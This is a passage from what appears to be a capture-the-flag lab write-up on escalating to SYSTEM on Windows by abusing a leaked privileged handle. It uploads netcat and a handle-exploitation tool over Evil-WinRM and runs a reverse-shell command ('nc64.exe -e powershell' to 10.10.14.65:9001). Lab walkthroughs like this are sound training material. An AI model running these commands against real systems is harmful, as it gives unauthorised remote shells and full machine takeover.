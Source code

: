 Moreover, the binary of the service and the one on our Desktop are currently running.

```bash
*Evil-WinRM* PS C:\Users\j.bret\Desktop> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
<SNIP>
     72       5      756       3412              6588   0 health
    186      11     4108       8956       0.06   4192   1 HealthCheck
```

Putting everything together, it seems that there is a service running a binary under the Administrator user and that binary launches a binary on our Desktop. To do so, one way is to create a separate thread to the low privilege binary or a new process. Either way, a handle has to be returned in the parent service. If that handle has dangerous privileges we can exploit it to gain Administrator privileges. We can use [this](https://github.com/lab52io/LeakedHandlesFinder) tool to check and possibly auto-exploit such handles. First of all, let's upload [nc64.exe](https://github.com/int0x33/nc.exe/), along with the tool, so that we can get a shell if we manage to exploit a handle.

```bash
*Evil-WinRM* PS C:\Users\j.bret\Documents> upload nc64.exe
*Evil-WinRM* PS C:\Users\j.bret\Documents> upload Leaked.exe
```

Then, we set up a listener on our local machine.

```bash
rlwrap nc -lvnp 9001
```

Finally, let's try to exploit any possible leaked handle.

```bash
*Evil-WinRM* PS C:\Users\j.bret\Documents> .\Leaked.exe -l -a -u -s -c"c:\\users\\j.bret\\Documents\\nc64.exe -e powershell 10.10.14.65 9001"
```

We get a callback on our listener.

```bash
PS C:\Users\j.bret\Documents> whoami

nt authority\system
```



